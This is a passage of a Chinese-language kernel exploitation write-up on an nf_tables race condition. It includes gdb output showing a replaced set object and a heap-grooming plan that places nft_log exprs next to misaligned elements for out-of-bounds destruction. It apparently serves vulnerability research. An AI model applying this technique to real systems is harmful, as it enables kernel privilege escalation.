 通过调试可以确认 pwn\_lookup\_set 被占位后，ops->elemsize 从 8 变成了 16

```bash
(gdb) p (((struct nft_trans_elem *)trans->data)->set)->name
$12 = 0xffff888113fffea0 "race_set_0004"
(gdb) p *(((struct nft_trans_elem *)trans->data)->set)->ops
$13 = {
  lookup = 0xffffffffc085ff00 <nft_hash_lookup>,
  update = 0x0 <fixed_percpu_data>,
  delete = 0x0 <fixed_percpu_data>,
  insert = 0xffffffffc085fa10 <nft_hash_insert>,
  activate = 0xffffffffc085f420 <nft_hash_activate>,
  deactivate = 0xffffffffc085f950 <nft_hash_deactivate>,
  flush = 0xffffffffc085f450 <nft_hash_flush>,
  remove = 0xffffffffc085f480 <nft_hash_remove>,
  walk = 0xffffffffc085f4c0 <nft_hash_walk>,
  get = 0xffffffffc085fe40 <nft_hash_get>,
  privsize = 0xffffffffc085f830 <nft_hash_privsize>,
  estimate = 0xffffffffc085f7d0 <nft_hash_estimate>,
  init = 0xffffffffc085f790 <nft_hash_init>,
  destroy = 0xffffffffc085f690 <nft_hash_destroy>,
  gc_init = 0x0 <fixed_percpu_data>,
  elemsize = 16
}
(gdb) bt
#0  0xffffffffc0850984 in nft_commit_release (trans=0xffff88811e22da00) at net/netfilter/nf_tables_api.c:8476
#1  nf_tables_trans_destroy_work (w=<optimized out>) at net/netfilter/nf_tables_api.c:8513
#2  0xffffffff810e581c in process_one_work (worker=worker@entry=0xffff8881039c7540, work=0xffffffffc0872380 <trans_destroy_work>) at kernel/workqueue.c:2289
#3  0xffffffff810e5a40 in worker_thread (__worker=0xffff8881039c7540) at kernel/workqueue.c:2436
#4  0xffffffff810ee77a in kthread (_create=0xffff888107f66640) at kernel/kthread.c:376
#5  0xffffffff810028bf in ret_from_fork () at arch/x86/entry/entry_64.S:306
#6  0x0000000000000000 in ?? ()
```

‍

### 堆风水分析

占位 set 后可以让 elem 错位，利用 nf\_tables\_set\_elem\_destroy 可以越界销毁一个 expr，因此我们需要在 elem 的附近布置 nft\_log expr，elem 在 nft\_add\_set\_elem 中被分配，分配的 flag 为 GFP\_KERNEL\_ACCOUNT，分配大小可以控制。

log expr 可以通过 newrule 请求分配，分配的 flag 为 GFP\_KERNEL\_ACCOUNT，log expr 会嵌入到 rule 的内存中。

-   nf\_tables\_newrule
    
    1.  handle = nf\_tables\_alloc\_handle(table);
        
    2.  nft\_ctx\_init(&ctx, net, skb, info->nlh, family, table, chain, nla);
        
    3.  size = 0;
        
    4.  nla\_for\_each\_nested(tmp, nla\[NFTA\_RULE\_EXPRESSIONS\], rem) <span style="font-weight: bold;" data-type="strong">--> 计算 expr 占用的内存大小</span>
        